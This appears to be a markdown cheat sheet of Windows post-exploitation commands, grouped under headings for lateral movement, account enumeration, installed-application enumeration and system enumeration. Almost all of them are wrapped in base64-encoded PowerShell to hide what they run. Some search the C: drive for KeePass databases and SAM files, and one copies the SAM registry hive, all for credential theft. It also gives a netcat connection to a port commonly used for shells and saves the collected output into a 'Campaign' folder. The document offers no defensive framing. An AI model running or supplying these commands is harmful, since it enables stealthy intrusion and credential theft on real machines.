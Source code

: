 ## Lateral Movement:

- `nc 192.168.50.220 4444`

## Local Account Enumeration:

- `$command = "whoami"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "whoami /groups"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "Get-LocalUser"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "Get-LocalGroup"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "Get-LocalGroupMember Administrators"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "Get-LocalGroupMember Administrators | Where-Object { $_.PrincipalSource -eq 'Local' } | Select-Object Name"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = ""; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$folderPath = ".\Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'Get-LocalGroupMember Administrators | Where-Object { $_.PrincipalSource -eq "Local" } | Select-Object Name'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Campaign\Local-Admins.txt"`

- `Get-LocalUser -Name "username" | Select-Object *`

- `Get-LocalGroupMember Administrators | Where-Object { $_.PrincipalSource -eq 'Local' } | Select-Object Name`

## Get Installed Applications:

### 32 Bit:

- `$folderPath = ".\Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname,DisplayVersion'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Campaign\32BitPrograms.txt"`

### 64 Bit:

- `$folderPath = ".\Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname,DisplayVersion'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Campaign\64BitPrograms.txt"`

## Local System Enumeration

- `$command = "Get-Process"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "Get-ChildItem -Path C:\ -Include \*.kdbx -File -Recurse -ErrorAction SilentlyContinue"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "Get-ChildItem -Path C:\ -Include SAM -File -Recurse -ErrorAction SilentlyContinue"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "Get-ChildItem -Path C:\ -Include _.txt,_.ini -File -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern 'YourSearchString'"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "Copy-Item -Path "$env:SystemRoot\System32\Config\RegBack\SAM" -Destination 'C:\Path\To\NewLocation\SAM'"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "systeminfo"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "ipconfig /all"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "route print"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "netstat -ano"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = ""; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = ""; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`
